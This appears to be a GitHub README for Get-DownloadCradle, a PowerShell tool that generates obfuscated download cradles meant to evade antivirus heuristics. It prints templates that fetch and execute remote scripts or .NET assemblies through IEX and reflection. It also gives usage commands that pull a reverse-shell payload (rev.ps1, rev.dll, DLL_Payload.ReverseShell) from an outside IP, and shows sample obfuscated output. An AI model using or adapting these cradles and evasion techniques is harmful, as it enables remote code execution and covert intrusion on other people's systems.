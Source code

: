 # Obfuscated PowerShell Download Cradles

Get-DownloadCradle is a project that stems from the Invoke-PSObfuscation framework, with the sole purpose of producing obfuscated download cradles for PowerShell. With the way this framework is built, each component of the original payload goes through a randomly selected generator, resulting in a different yield with every execution of this script. 

Due to the complexity of the obfuscation logic, the resulting payloads will be very difficult to signature and will slip past heuristic engines that are not programmed to emulate the inherited logic.

## Cradle Templates

This script includes templates for three PowerShell download cradles, namely `DownloadString`, `DownloadFile` and `DownloadData`. The resulting payloads are output as a one liner, but have been split below for readability. 

__DownloadString__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadString("<DOWNLOADPATH>") | IEX
```
__DownloadFile__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("<DOWNLOADPATH>","<LOCALPATH>")
$Assem = [System.Reflection.Assembly]::LoadFile("<LOCALPATH>")
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

__DownloadData__

```powershell
$WebClient = New-Object System.Net.WebClient
$Data = $WebClient.DownloadData("<DOWNLOADPATH>")
$Assem = [System.Reflection.Assembly]::Load($Data)
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated cradles are compatible on Windows systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script into your current session by dot sourcing the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-DownloadCradle.ps1
```

With the script loaded into our PowerShell session, we need to run the `Get-DownloadCradle` function and supply the cradle type and accompanying information to inject into the payload.

__DownloadString__

`Get-DownloadCradle -DownloadString -DownloadPath http://192.168.49.80/rev.ps1`

__DownloadFile__

`Get-DownloadCradle -DownloadFile -DownloadPath http://192.168.49.80/rev.dll -LocalPath C:\rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__DownloadData__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__Output to File__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner -OutFile obfuscated.ps1`

__Show Changes__

Where this script has been built from `Invoke-PSObfuscation`, we have the ability to target specific script components vs all of them at the same time. In addition to this, if we wanted to learn more about what was obfuscated, we can include the `ShowChanges` parameter. This will instruct the script to display each targeted component, the obfuscated value that will be replacing it and the generator value that was used. 

```shell
──(kali㉿kali)-[/home/kali]
└─PS> Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner -ShowChanges

     >> Layer 0 Download Cradle
     >> https://github.com/gh0x0st

    Generator 2 >> http://192.168.49.80/rev.dll >> $([char](51+104-51)+[char](0+116-0)+[char](0+116-0)+[char](0+112-0)+[char](30+58-30)+[char](0+47-0)+[char](73*47/73)+[char](25*49/25)+[char](45+57-45)+[char](58+50-58)+[char](102+46-102)+[char](0+49-0)+[char](78*54/78)+[char](113*56/113)+[char](26*46/26)+[char](18*52/18)+[char](69*57/69)+[char](98*46/98)+[char](15*56/15)+[char](24*48/24)+[char](0+47-0)+[char](48+114-48)+[char](118*101/118)+[char](0+118-0)+[char](0+46-0)+[char](0+100-0)+[char](45*108/45)+[char](0+108-0))
    Generator 3 >> DLL_Payload.ReverseShell >> $($($('D'+'L'+'L'+'_'+'P'+'a'+'y'+'l'+'o'+'a'+'d'+'.'+'R'+'e'+'v'+'e'+'r'+'s'+'e'+'S'+'h'+'e'+'l'+'l')))
    Generator 3 >> runner >> ($($('r'+'u'+'n'+'n'+'e'+'r')))
    Generator 2 >> System.Net.WebClient >> $([char](0+83-0)+[char](76+121-76)+[char](118+115-118)+[char](98+116-98)+[char](91*101/91)+[char](2*109/2)+[char](105*46/105)+[char](0+78-0)+[char](51*101/51)+[char](0+116-0)+[char](23+46-23)+[char](0+87-0)+[char](0+101-0)+[char](0+98-0)+[char](111+67-111)+[char](54*108/54)+[char](0+105-0)+[char](52+101-52)+[char](42*110/42)+[char](0+116-0))
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 5 >> | >> |<##>%{$_}|
    Generator 11 >> | >> |ForEach-Object{$_}|ForEach-Object{$_}|
    Generator 2 >> $WebClient >> $rOG6V9jBlcgSL3DnfKy1vs
    Generator 3 >> $Data >> $MH6VTazWPsQbu8z
    Generator 3 >> $Assem >> $SIsYjqGeX8bayA2nuPRC
    Generator 3 >> $Class >> $fD
    Generator 2 >> $Method >> $5osQqa0YTMZIUt6Vu9D
```
